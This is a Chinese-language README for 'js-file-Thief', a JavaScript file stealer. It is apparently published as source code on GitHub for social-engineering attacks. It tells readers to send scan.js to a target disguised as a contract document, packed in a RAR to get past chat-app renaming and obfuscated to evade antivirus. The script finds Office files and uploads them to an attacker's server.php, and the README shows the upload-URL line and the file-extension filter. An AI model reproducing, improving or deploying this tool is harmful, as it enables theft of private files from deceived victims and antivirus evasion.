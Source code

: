 # js-file-Thief
js文件小偷
主要用在交互式社工时，需要得到被社目标电脑上的一些文件时。分客户端和服务端两份。  
是js文件，不是exe。（过360全套无提示）  
自动搜索目标电脑上指定的扩展名的文件，上传到服务器。  
（默认是doc和xls之类的，需要什么文件可以自行修改，一共也没几行代码）  
优点是个头小，而且不是exe文件，现在exe文件太敏感，还有在全过程360没有提示。（金山猎豹会提示在上传文件）  
修改过脚本后自己用js加密工具加密一下隐密性还凑合，容易获得信任，js在不懂的人眼里是不知道是什么，半懂不懂的人认为是无害的，图标又长的像文本文件，起个“合同书.js”发过去，我发现成功率很高，比直接发EXE靠谱的多。  
缺点嘛，通过QQ传送依然会被重命名，要把js后缀的重命名去掉，所以推荐用rar压缩包发送，js不是常见扩展名，还有就是功能简陋，就这一个功能，哪位大牛修改了弄的更好了希望能共享一下。  
用法很简单了，把server.php放到网上，建立个uploads目录，发js文件给别人，然后等会儿去uploads目录看。（具体看代码吧，很简单的。）  
server.php放在服务器web目录  
这里可以修改文件存放目录  
scan.js发给被攻击者  
var __POSTURL__ = 'http://www.baidu.com/server.php';`### js第一行的这段代码里面修改你web域名或者ip都行  

if (/\.(doc|docx|xls|xlsx)$/i.test(FileList<i>)) {`## js地54行这里是可以修改长传文件后缀名的 txt什么的都行  
